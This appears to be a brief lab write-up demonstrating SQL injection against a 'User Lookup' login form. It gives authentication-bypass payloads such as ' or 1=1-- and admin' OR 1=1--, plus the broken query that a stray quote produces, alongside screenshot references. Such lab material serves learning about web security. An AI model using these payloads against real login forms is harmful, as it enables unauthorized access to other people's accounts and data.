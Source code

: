 #### User Lookup (SQL)

- Demo

![](images/1.png)

![](images/2.png)

![](images/3.png)

![](images/4.png)

- Payload

```
Username: ' or 1=1-- 
Password: blah
```

###### Inspect

```
admin'
```

```mysql
SELECT * FROM accounts WHERE username='admin'' AND password=''
```

![](images/5.png)

```
'--
```

![](images/6.png)

```
admin' OR 1=1-- 
```

![](images/7.png)